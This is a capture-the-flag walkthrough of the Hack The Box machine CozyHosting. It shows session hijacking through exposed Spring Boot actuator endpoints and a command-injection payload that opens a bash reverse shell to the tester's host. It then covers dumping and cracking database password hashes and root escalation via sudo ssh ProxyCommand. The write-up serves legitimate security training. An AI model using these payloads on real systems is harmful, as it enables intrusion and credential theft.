

# CozyHosting
https://app.hackthebox.com/machines/CozyHosting

## Port scan

### Tool used: nmap
<br>

```
nmap cozyhosting.htb

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-17 01:23 EST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.051s latency).
rDNS record for 10.10.11.230: cozyhosting
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Browsing the URL doesn't give us anything exciting, just a login page. However, enumerating directories gives us some useful information.<br><br>

### Tool used: ffuf
<br>

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://cozyhosting.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 86ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 214ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 357ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 186ms]
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 180ms]
render/https://www.google.com [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 185ms]
:: Progress: [4723/4723] :: Job [1/1] :: 232 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

The "error" page indicates that Spring Boot is being used.


<br><br>

Another directory scan using the "spring-boot" wordlist reveals some useful directories.<br><br>

```
ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 189ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 226ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 149ms]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 160ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 249ms]
actuator/sessions       [Status: 200, Size: 148, Words: 1, Lines: 1, Duration: 72ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 242ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 231ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 273ms]
:: Progress: [112/112] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

The "actuator" directory reveals some details on the environment.<br><br>

```json
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```

Upon investigation of the directories, "/sessions" reveals some useful information.<br><br>

```json
{
  "FC51464E4DF42E9EC390054B0DD2A158": "kanderson",
  "90EE28B3C8B6F3687AB1A0667CC3EAD3": "UNAUTHORIZED"
}
```

Moving over to the login page, we use "kanderson" for the username and a random password and capture the request in Burp Suite.<br><br>

### Tool used: burp
<br>


<br><br>

If we replace the session id with the one we found in "/sessions", we get logged in!<br><br>


<br><br>

While still capturing the session, we put in random values for "Hostname" and "Username". We see a POST request for "/executessh". We send the username and a sinqle quote (test') and receive an error about bash execution.<br><br>


<br><br>

We setup a listener on our machine, generate our payload in the form of a base64 string, and send the payload as the username. In Burp Suite, select the payload text and convert the selection to "URL-encode key characters", then send the request.<br><br>

**payload**
<br><br>

```
echo "bash -i >& /dev/tcp/10.10.14.35/4443 0>&1" | base64 -w 0

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNS80NDQzIDA+JjEK


;echo${IFS%??}"##OUR_BASE64_STRING##"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```


<br><br>

We then stabilize our shell.<br><br>

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

Once we are in, we see a *.jar file in the directory. We setup a simple python http server to get the file from the host to our machine.

Once we have the file, we use a Java decompiler (jd-gui) to open the file. Inside, we see some PostgreSQL credentials.<br><br>


<br><br>

Back at our shell, we login to PostgreSQL using the credentials we just found. From here, we list the databases, connect to the desired database, list the tables, and dump the information.<br><br>

**login: psql -h 127.0.0.1 -U postgres**


**list databases: \l**


**connect to database: \c cozyhosting**


**list tables: \dt**



**dump information: select * from users;**


<br><br>

From here, we focus on the hashed password for "admin". We copy the hash to a text file and feed it into John the Ripper. 

```
john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt

john hash2.txt --show                                                                                                  
?:manchesterunited

1 password hash cracked, 0 left
```

While enumerating the host, we see a user called "josh" in /etc/passwd. We successfully login using the recently cracked password.<br><br>


<br><br>

Right away, we are able to get the user.txt flag.

## user.txt

```
13b26d**************************
```

Now, we try to escalate our privileges. First, we see what kind of privileges "josh" has.<br><br>

```
sudo -l

[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Looking at GTFOBins, we find a way to escalate using the "ssh" command.<br><br>

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# id

uid=0(root) gid=0(root) groups=0(root)
```

Now we are able to get the root.txt flag.

## root.txt

```
d2ec54**************************
```